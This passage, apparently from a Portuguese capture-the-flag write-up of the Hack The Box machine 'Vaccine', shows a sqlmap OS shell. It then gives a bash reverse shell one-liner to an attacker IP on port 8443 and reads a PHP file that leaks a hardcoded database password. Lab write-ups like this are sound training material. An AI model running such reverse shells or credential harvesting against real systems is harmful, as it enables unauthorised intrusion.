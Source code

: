 ```bash
[21:49:53] [INFO] retrieved: '-rw-------  1 postgres postgres  108 Sep  7 01:00 postmaster.pid'
os-shell> 
```
Conseguimos um shell com o usuário `postgres`!!!

Podemos melhorar este shell com um reverse shell utilizando o netcat, vamos seter um netcat na porta 8443 e enviar um payload.

```bash
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.15.185/8443 0>&1'
do you want to retrieve the command standard output? [Y/n/a] n
[21:55:24] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
```
E conseguimos o shell.

<img src="/htb/htb-vaccine-6.png">

## Escalação de privilégios

Esta máquina não possui a flag `user.txt`, então precisamos escalar privilégios para conseguir a `root.txt`.

Após enumerar vários diretórios, encontrei a senha do user `postgres`, dentro do arquivo `dashboard.php` no diretório `/var/www/html`.

```bash
postgres@vaccine:/var/www/html$ cat dashboard.php
cat dashboard.php
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Dashboard</title>
  <link rel="stylesheet" href="./dashboard.css">
  <script src="https://use.fontawesome.com/33a3739634.js"></script>

---------CORTADO---------

        try {
          $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
        }
```
